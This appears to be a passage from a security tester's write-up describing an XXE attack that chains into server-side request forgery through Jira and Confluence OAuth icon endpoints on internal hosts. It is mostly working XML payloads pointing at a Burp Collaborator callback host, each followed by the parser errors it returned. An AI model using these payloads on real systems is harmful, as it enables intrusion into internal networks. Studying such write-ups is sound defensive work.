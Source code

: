 ```xml
The markup declarations contained or pointed to by the document type declaration must be well-formed.
```

This means internal network traffic is allowed, and our internal request succeeded!
As He know Jira can be used for SSRF 

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "https://jira.company.internal/plugins/servlet/oauth/users/icon-uri?consumerUri=http://4hm888a6pb127f2kwu2gsek23t9jx8.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

```
The request is invalid: The request content was malformed:
sun.security.validator.ValidatorException: PKIX path building failed: sun.security.provider.certpath.SunCertPathBuilderException: unable to find valid certification path to requested target
```


HTTPS traffic fails if anything in the SSL verification goes wrong. Luckily, Jira by default also runs as a plain HTTP service on TCP port 8080. 

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://jira.company.internal:8080/plugins/servlet/oauth/users/icon-uri?consumerUri=http://4hm888a6pb127f2kwu2gsek23t9jx8.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

```
The request is invalid: The request content was malformed:
http://jira.company.internal:8080/plugins/servlet/oauth/users/icon-uri
```

The Jira instance is probably patched or has the vulnerable plug-in disabled. (Collab was not getting anythnig) . 

After frantically and fruitlessly looking for known SSRF vulnerabilities on different types of Wiki applications (and against better judgment), I decided to try the same Jira vulnerability against the internal Confluence instance instead (running on port 8090 by default):

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://confluence.company.internal:8090/plugins/servlet/oauth/users/icon-uri?consumerUri=http://4hm888a6pb127f2kwu2gsek23t9jx8.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

```
The request is invalid: The request content was malformed:
The markup declarations contained or pointed to by the document type declaration must be well-formed.
```
